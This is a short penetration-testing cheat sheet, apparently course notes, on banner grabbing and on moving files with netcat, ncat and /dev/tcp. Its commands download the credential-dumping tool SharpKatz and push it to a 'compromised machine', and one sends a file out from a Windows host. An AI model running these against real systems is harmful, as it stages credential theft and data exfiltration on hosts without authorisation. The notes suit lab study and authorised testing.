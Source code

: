 #### Banner Grabbing
```shell
nc -nv <IP> 21
```
## File Transfer with Netcat and Ncat
#### From Windows to Linux
**Windows**
```cmd
nc64.exe -w 3 10.10.15.11 8000 < file.txt
```
**Linux**
```shell
nc -l -p 8000 > file.txt
```
#### NetCat - Compromised Machine
```shell
nc -l -p 8000 > SharpKatz.exe
```
#### Ncat - Compromised Machine
```shell
ncat -l -p 8000 --recv-only > SharpKatz.exe
```
#### Netcat - Attack Host - Sending File to Compromised machine
```shell
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
```
```shell
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```
#### Ncat - Attack Host - Sending File to Compromised machine
```shell
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
```
```shell
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```
#### Attack Host - Sending File as Input to Netcat
```shell
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```
#### Compromised Machine Connect to Netcat to Receive the File
```shell
nc 192.168.49.128 443 > SharpKatz.exe
```
#### Attack Host - Sending File as Input to Ncat
```shell
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```
#### Compromised Machine Connect to Ncat to Receive the File
```shell
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```
#### NetCat - Sending File as Input to Netcat
```shell
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```
#### Ncat - Sending File as Input to Netcat
```shell
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```
#### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File
```shell
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

